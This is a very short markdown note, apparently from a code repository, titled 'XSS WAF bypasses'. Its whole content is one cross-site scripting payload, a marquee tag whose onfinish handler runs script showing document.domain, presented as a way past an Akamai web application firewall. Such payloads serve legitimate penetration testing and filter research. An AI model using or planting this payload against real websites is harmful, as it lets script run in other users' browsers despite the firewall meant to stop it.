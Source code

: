 # XSS WAF bypasses

<marquee/loop=1+width=0+onfinish=[document.domain].map(confirm)> Akami WAF bypass.
